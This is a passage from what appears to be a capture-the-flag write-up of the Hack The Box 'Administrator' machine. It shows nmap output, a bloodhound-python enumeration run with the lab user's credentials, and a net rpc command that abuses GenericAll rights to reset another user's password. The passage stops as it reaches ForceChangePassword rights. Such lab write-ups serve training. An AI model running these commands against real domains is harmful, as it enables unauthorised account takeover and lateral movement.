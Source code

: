 ```python
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr  2 12:10:51 2025 -- 1 IP address (1 host up) scanned in 75.49 seconds
```

From the scan, I find various services running, including FTP (port 21), DNS (port 53), Kerberos (port 88), SMB (ports 135, 139, 445), and WINRM (port 5985), among others. If I use Olivia's credentials, I can access the machine with WinRM, but there will not be any information on the machine that leads to a possible privilege escalation path. As I mentioned before, this is a pure AD machine.

### Running Bloodhound as Olivia 

Since this is an Active Directory environment and I have credentials I run **Bloodhound-python** to gather information about the domain and find possible lateral movement paths.

```bash
bloodhound-python -u 'olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb -c all --zip
```

After uploading the data to Bloodhound, I set Olivia's user as owned and it's possible to see that Olivia has ***GenericAll*** rights over *Michael*

![Alt text](/assets/images/HTB/Administrator/Admin1.png)

## Foothold

### GenericAll over Michael.

In simple words, `GenericAll` rights give full control of the object (user, computer, group, etc.), thus allowing the trustee to manipulate the target however they want. In this case, I am going to use Olivia's credentials to abuse the GenericAll privilege and change Michael's password.

- For more information on GenericAll, please visit [SpectreOps - Generic All](https://bloodhound.specterops.io/resources/edges/generic-all)

```bash
net rpc password "michael" "wzk123." -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
```

Verify the password did change:

![Alt text](/assets/images/HTB/Administrator/Admin2.png)

### ForceChangePassword over Benjamin.

I mark Michael as owned in Bloodhound and invetigating the user I notice he has `ForceChangePassword` rights over Benjamin.
